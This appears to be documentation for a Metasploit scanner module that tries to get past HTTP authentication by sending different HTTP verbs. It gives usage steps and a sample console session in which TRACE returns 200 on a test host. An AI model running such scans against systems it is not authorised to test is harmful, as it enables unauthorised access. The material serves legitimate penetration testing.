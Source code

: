 ## Description

This module scans a server or range of servers and attempts to bypass authentication by using different HTTP verbs.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/verb_auth_bypass```
2. Do: ```set PATH [auth page]```
3. Do: ```set RHOSTS [IP]```
4. Do: ```run```

## Scenarios

```
msf > use auxiliary/scanner/http/verb_auth_bypass
msf auxiliary(verb_auth_bypass) > set PATH /xampp/
PATH => /xampp/
msf auxiliary(verb_auth_bypass) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(verb_auth_bypass) > run

[*] 192.168.1.201 requires authentication: Basic realm="xampp user" [401]
[*] Testing verb HEAD resp code: [401]
[*] Testing verb TRACE resp code: [200]
[*] Possible authentication bypass with verb TRACE code 200
[*] Testing verb TRACK resp code: [401]
[*] Testing verb WMAP resp code: [401]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(verb_auth_bypass) >
```

